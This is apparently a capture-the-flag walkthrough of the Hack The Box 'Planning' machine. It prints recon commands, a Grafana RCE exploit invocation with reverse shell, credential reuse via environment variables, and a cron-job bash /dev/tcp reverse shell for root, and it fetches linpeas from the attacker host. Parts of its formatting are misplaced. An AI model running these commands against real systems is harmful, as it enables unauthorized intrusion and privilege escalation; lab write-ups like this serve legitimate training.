

# Planning Walkthrough

Author: Mrn0b0dy  
Date: 7/7/2025

## Scanning...

```
nmap -sV 10.10.11.68
```
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-07 10:27 +06 
Nmap scan report for planning.htb (10.10.11.68)
Host is up (0.36s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.72 seconds

```
### we found two ports. Lets see what port 80 contains for us. Ran some sql injections but no sign of vulnrabilities
#### PS: make sure to set the ip and name in the /etc/hosts ie. *10.10.11.68 planning.htb* 
### Lets run a ffuf scan
```
ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -u "http://planning.htb" -H 'HOST:FUZZ.planning.htb' -t 100 -fs 178
```
#### Explaination: -w is the wordlist. -u URL . -H fuzzes exactly the header of the url. It will fuzz the part where FUZZ is written. -t optional but it makes it faster. -fs filters out everything with 178 bytes.

```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

:: Progress: [8857/151265] :: Job [1/1] :: 90 req/sec :: Duration: [0:01:23] :: Errors: 0 ::
```
### We find grafana.planning.htb 
#### Again add this to /etc/hosts file to access the url
```
10.10.11.68    planning.htb grafana.planning.htb
```
### Lets go to the browser
### We have to login using the given creds admin / 0D5oT70Fq13EvB5r. Click the ? on the top and we find the version Grafana v11.0.0 (83b9528bce). Search for vulnrabilities and i found this [CVE-2024–9264](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit/blob/main/poc.py)
## Reverse Shell
### Lets cd to that exploit and use poc.py to start a reverse shell
### Set a listener first
```
nc -lnvp 4444
```
### Run the poc.py
```
python poc.py --url http://grafana.planning.htb:80 --username admin --password 0D5oT70Fq13EvB5r --reverse-ip <ip here> --reverse-port 4444

[SUCCESS] Login successful!
Reverse shell payload sent successfully!
Set up a netcat listener on 4444
```
```
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.11.68] 39288
sh: 0: can't access tty; job control turned off
# 

```
### Seems like we are in a Docker 
### Found something interestions in env
```
GF_SECURITY_ADMIN_PASSWORD= *REDACTED*
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
```
## User Flag
### Lets SSH using the found username enzo.
```
─# ssh enzo@10.10.11.68
```
```
enzo@10.10.11.68's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

<snip>

enzo@planning:~$ 
```
### Now you can get the user.txt
```
cat user.txt
```
## Root Flag
### Lets do a linpeas scan using [Linpeas.sh](https://github.com/peass-ng/PEASS-ng/releases/download/20250701-bdcab634/linpeas.sh)
### Set up a python server
```
python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
#### The file will be downloaded from this server
```
enzo@planning:~$ wget http://10.10.14.43:8080/linpeas.sh
```
```
--2025-07-07 05:23:13--  http://10.10.14.43:8080/linpeas.sh
Connecting to 10.10.14.43:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 956174 (934K) [text/x-sh]
Saving to: ‘linpeas.sh.4’

linpeas.sh.4                      100%[==========================================================>] 933.76K   455KB/s    in 2.1s    

2025-07-07 05:23:17 (455 KB/s) - ‘linpeas.sh.4’ saved [956174/956174]
```
```
./linpeas.sh
```
```
╔══════════╣ Active Ports
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-ports
══╣ Active Ports (netstat)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:35091         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```
### Port 8000 is open
```
╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /opt/crontabs/crontab.db: New Line Delimited JSON text data
Found /tmp/mycron.db: New Line Delimited JSON text data
Found /var/lib/command-not-found/commands.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 5, database pages 967, cookie 0x4, schema 4, UTF-8, version-valid-for 5
Found /var/lib/fwupd/pending.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 6, database pages 16, cookie 0x5, schema 4, UTF-8, version-valid-for 6
Found /var/lib/PackageKit/transactions.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 5, database pages 8, cookie 0x4, schema 4, UTF-8, version-valid-for 5

 -> Extracting tables from /var/lib/command-not-found/commands.db (limit 20)
 -> Extracting tables from /var/lib/fwupd/pending.db (limit 20)
 -> Extracting tables from /var/lib/PackageKit/transactions.db (limit 20)

```
### there might be something in the cron.db
```
cat /opt/crontabs/crontab.db
```
### More passwords and it is for the root user we hit the gold.
### Lets get port 8000 traffic on our machinee
```
ssh -L 8000:localhost:8000 enzo@planning.htb
```
### Now go to the Local host on your browser at port 8000



### Create a new cronjob and give it this command to run.
```

```
### Set up a listener and then,
### Run it!
```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.11.68] 49212
bash: cannot set terminal process group (1477): Inappropriate ioctl for device
bash: no job control in this shell
root@planning:/# whoami
root
```
bash -c 'exec bash -i &>/dev/tcp/10.10.14.43/4444 <&1'
```
root@planning:/# cd
cd
root@planning:~# ls
ls
root.txt
scripts
```
### Congrats!!! You pawned Planning...
## Please remember to follow my GitHub and my socials, Thanks!!!👌
 